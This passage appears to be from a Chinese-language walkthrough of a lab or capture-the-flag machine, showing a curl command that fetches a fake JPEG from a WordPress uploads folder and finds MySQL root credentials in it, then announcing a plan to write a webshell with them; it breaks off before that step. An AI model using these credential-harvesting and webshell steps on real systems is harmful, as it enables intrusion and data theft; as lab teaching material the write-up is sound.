 funky.jpeg

这个文件不是真正的 jpeg 文件，所以试图在浏览器中查看它会导致错误。但是，我们可以用`curl`检索这个文件，并在本地读取它。

```
curl -k https://192.168.15.151:12380/blogblog/wp-content/uploads/10099696544.jpeg
```

> `-k`忽略证书

![](img/e4bdd1f3c792ac8230582a516b898bd0.png)

mysql 根凭证

果然，这个文件包含了`mysql`的凭证——更好的是它们是`root`凭证！我们可以玩玩这个。让我们用它来写一个 webshell 到这个 WordPress 上传目录中。

## 用 MySQL 编写 Webshell

要在 oneliner 中使用这些凭证访问 mysql:
